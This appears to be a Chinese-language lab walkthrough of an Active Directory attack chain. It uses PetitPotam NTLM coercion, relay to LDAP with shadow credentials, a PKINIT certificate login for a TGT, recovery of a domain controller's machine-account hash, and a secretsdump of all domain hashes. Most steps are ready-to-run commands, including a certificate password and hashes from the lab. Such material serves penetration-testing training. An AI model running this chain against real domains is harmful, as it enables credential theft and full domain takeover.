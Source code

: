 （1）NTLM 强制认证漏洞检测及 ADCS 服务检测。

    nxc smb 192.168.56.52-53 -M coerce_plus
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120657204-1020978609.png)

    openssl s_client  192.168.56.52:636
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120712566-1326721561.png)

可以看到，主备域控均存在 PetitPotam 漏洞。同时，主域控还安装了证书颁发服务。

（2）开启中继监听器。

    impacket-ntlmrelayx -t ldap://192.168.56.52 --shadow-credentials --remove-mic
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120748656-1104808556.png)

（3）执行 NTLM 强制认证利用工具。

    python PetitPotam.py 192.168.56.20 192.168.56.53
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120809205-1837902096.png)

（4）获得机器账户 DC2017 的 kerberos 认证证书。

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120834690-1867698448.png)

可以看到，impacket-ntlmrelayx 不仅为我们申请到了 pfx 证书，同时还提供了利用证书获取 TGT 票据的命令。不过需要注意的是，这条命令不能拿来直接就使用，还需要为其提供 DC2016 的 ip 才行，不然 kali 无法凭域名解析目标机器的具体 IP 地址。【注：要想命令不做修改直接拿来就使用的话，则需要在 kali 的 hosts 文件中添加 `test.com 192.168.56.52` 映射记录才行。】

（5）发起 kerberos 证书认证请求 TGT 票据。

    python3 PKINITtools-master/gettgtpkinit.py -cert-pfx 7Gpc0pVZ.pfx -pfx-pass GThhfSnb30mwB2puuCEc -dc-ip 192.168.56.52 'test.com/DC2017$' 7Gpc0pVZ.ccache
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120856206-482504136.png)

可以看到，TGT 票据被成功请求，同时它还提供了有关机器账户 DC2017 的一个字串信息。

> [PKINITtools](https://github.com/dirkjanm/PKINITtools) 是专门用于 Kerberos PKINIT 滥用（证书登录）和 Shadow Credentials 攻击链的工具集，在 Active Directory 渗透中非常关键。

（6）根据票据和一个字串获取机器账户的哈希

    export KRB5CCNAME=7Gpc0pVZ.ccache
    
    python3 PKINITtools-master/getnthash.py -key 757eebb398a8cc7778fdfad0bc5aa84fd758771852f106a96cbdd2a4c59eb70b 'test.com/DC2017$' -dc-ip 192.168.56.52
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120922448-995085806.png)

可以看到，机器账户的哈希被成功获取。

（7）通过哈希传递攻击转储所有域用户的哈希。

    impacket-secretsdump 'test.com/DC2017$'@192.168.56.52 -hashes :76f2514c34440438c4346baf30ae2ad3
    

![image](https://img2024.cnblogs.com/blog/1503193/202507/1503193-20250715120944338-246053126.png)